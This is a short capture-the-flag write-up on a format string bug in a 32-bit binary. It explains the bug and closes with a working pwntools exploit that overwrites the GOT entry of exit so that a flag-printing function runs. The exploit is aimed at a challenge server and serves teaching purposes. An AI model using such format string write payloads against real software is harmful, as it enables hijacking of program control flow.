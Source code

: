 We have [32-bit binary](32_new). Let's examine what this thing do using IDA Pro.

<p align="center">
  <img src="screens/code.png">
</p>

The code is pretty simple. We input string, then put the entered string into ```format``` variable and in the end we print ```format```. How you can see ```printf``` function has only one argument. So, this is can be **format string attack**. Let's check it putting in the binary ```"%x.%x.%x.%x"``` string

<p align="center">
  <img src="screens/fsb.png">
</p>

Okay, there is format string bug. It means that we can write into an arbitrary memory address. But what and where we should write? If we check the code one more time then we can see interesting function:

<p align="center">
  <img src="screens/print-flag.png">
</p>

This function simply prints the flag. So, the obvious idea to solve this challenge is to change execution flow to above function. Okay, if we can write into arbitrary place, then we should just replace GOT entry of ```exit``` function with the address of the function printing the flag.

[Exploit](exploit.py) that does exactly that, is placed below:

```python
from pwn import *


def main():
    pc = remote('163.172.176.29', 9035)

    fm = '%34501x%20$hn%33017x%21$hn'

    pc.recvline()
    pc.sendline(fm + (40 - len(fm)) * 'A' + '\x34\xa0\x04\x08' + '\x36\xa0\x04\x08')
    
    pc.interactive()


if __name__ == '__main__':
    main()
```